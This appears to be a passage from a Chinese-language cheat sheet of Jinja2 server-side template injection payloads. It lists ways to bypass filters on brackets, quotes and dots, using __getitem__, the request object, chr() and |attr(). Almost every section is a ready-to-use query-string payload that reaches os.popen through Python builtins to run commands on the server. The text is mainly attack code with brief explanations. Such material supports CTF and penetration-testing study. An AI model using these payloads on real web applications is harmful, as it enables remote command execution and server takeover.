 * 使用gititem绕过

使用getitem()方法输出序列属性中某个索引处的元素，相当于[]

```
?name={{&#39;&#39;.__class__.__mro__[1].__subclasses__().__getitem__(139).__init__.__globals__.__getitem__(&#39;__builtins__&#39;).__getitem__(&#39;__import__&#39;)(&#39;os&#39;).popen(&#39;whoami&#39;).read()}}
```

* 点绕过

  访问字典里的值有两种方法，一种是把相应的键放入方括号[]里来访问，一种就是用点.来访问。当方括号[]被过滤之后，还可以用点.的方式来访问

  ```
  ?name={{&#39;&#39;.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.__import__(&#39;os&#39;).popen(&#39;whoami&#39;).read()}}
  ```

### 过滤引号

* request对象绕过

  request有两种形式，request.args和request.values，POST和GET传递的数据都可以被接收

  ```
  ?name={{&#39;&#39;.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.__import__(request.args.v1).popen(request.values.v2).read()}}&amp;v1=os&amp;v2=whoami
  ```

* chr绕过

  GET请求时，&#43;号记得url编码，要不会被当作空格处理。

  ```
  ?name={% set chr=().__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.chr%}{{&#39;&#39;.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.__import__(chr(111)%2Bchr(115)).popen(chr(119)%2Bchr(104)%2Bchr(111)%2Bchr(97)%2Bchr(109)%2Bchr(105)).read()}}
  ```

### 过滤点

* 中括号[]绕过

  ```
  ?name={{&#39;&#39;[&#39;__class__&#39;][&#39;__mro__&#39;][1][&#39;__subclasses__&#39;]()[139][&#39;__init__&#39;][&#39;__globals__&#39;][&#39;__builtins__&#39;][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;whoami&#34;).read()&#39;)}}
  ```

* |attr()绕过

  ttr()为jinja2原生函数，是一个过滤器，它只查找属性获取并返回对象的属性的值，过滤器与变量用管道符号（ | ）分割.

  ```
  ?name={{()|attr(&#39;__class__&#39;)|attr(&#39;__base__&#39;)|attr(&#39;__subclasses__&#39;)()|attr(&#39;__getitem__&#39;)(139)|attr(&#39;__init__&#39;)|attr(&#39;__globals__&#39;)|attr(&#39;__getitem__&#39;)(&#39;__builtins__&#39;)|attr(&#39;__getitem__&#39;)(&#39;eval&#39;)(&#39;__import__(&#34;os&#34;).popen(&#34;whoami&#34;).read()&#39;)}}
  ```
